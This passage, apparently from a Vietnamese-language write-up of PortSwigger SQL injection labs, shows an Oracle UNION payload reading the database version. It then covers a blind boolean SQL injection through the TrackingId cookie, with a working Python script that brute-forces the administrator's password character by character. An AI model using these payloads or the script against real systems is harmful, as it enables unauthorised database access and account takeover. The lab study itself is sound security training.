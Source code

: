 Sửa lại để UNION thì kết quả là ta lấy được version và solve bài lab
```sql!
' UNION SELECT NULL, banner FROM v$version -- 
```
>![](https://i.imgur.com/PV8dhCw.png)

<hr>

### Bài 8: Blind SQL injection with conditional responses
>![](https://i.imgur.com/N1Z8n0P.png)

Theo đề thì trang web sẽ trả về văn bản có chữ "welcome back" nếu câu truy vấn có trả về kết quả, còn không thì sẽ không có chữ này. Ta sẽ dựa vào dấu hiệu này để khai thác boolean based SQLi

Đầu tiên, cần xác định chức năng nào có lỗi, sau khi kiểm tra thì em biết có 1 chức năng ẩn sử dụng Cookie `TrackingId`.
Khi ta sửa giá trị của nó thành `xxxxx' AND 1=2 -- ` thì chữ 'welcome back đã biến mất'
Ta xác định số cột của table trước, payload sẽ là `xxx' UNION SELECT NULL --` và biết được nó có 1 cột kiểu string
Ta sử dụng Burp Intruder để brute-force số ký tự của password và biết được nó có 20 ký tự, payload như trong hình.
>![](https://i.imgur.com/mBOr6zh.png)

Tiếp đó lại dùng Burp Intruder để brute-force giá trị của password
Đề đã cho trước password sẽ có chứa ký tự thường và số, ta có câu truy vấn để lấy từng ký tự như sau
```sql!
(SELECT SUBSTRING(password,'X',1) FROM users WHERE username='administrator')='Y'--
```
Trong đó `X` và `Y` là hai giá trị sẽ làm tham số brute-force, X nằm trong khoảng 1 đến 20; còn Y thuộc bảng chữ cái thường + số
Lười làm bằng Intruder nên em code python như sau
```python!
import requests

url = "https://0a6e004203010e2dc0d2d676001f00aa.web-security-academy.net/"

cookie = {
    'TrackingId' : ''
}
password=""
for i in range(1,21):
    for j in range(48,58):
        cookie['TrackingId'] = "jhWqQbqPdHKVPMXV' AND (SELECT SUBSTRING(password,{},1) FROM users WHERE username = 'administrator')='{}' --".format(i, chr(j))
        r = requests.get(url=url,cookies=cookie)
        if("Welcome" in r.text):
            password += chr(j)
    for j in range(97,123):
        cookie['TrackingId'] = "jhWqQbqPdHKVPMXV' AND (SELECT SUBSTRING(password,{},1) FROM users WHERE username = 'administrator')='{}' --".format(i, chr(j))
        r = requests.get(url=url,cookies=cookie)
        if("Welcome" in r.text):
            password += chr(j)
    print("pass: ", password)
```
Kết quả có password và truy cập được tài khoản admin
**Password**
>![](https://i.imgur.com/aRc0OXT.png)
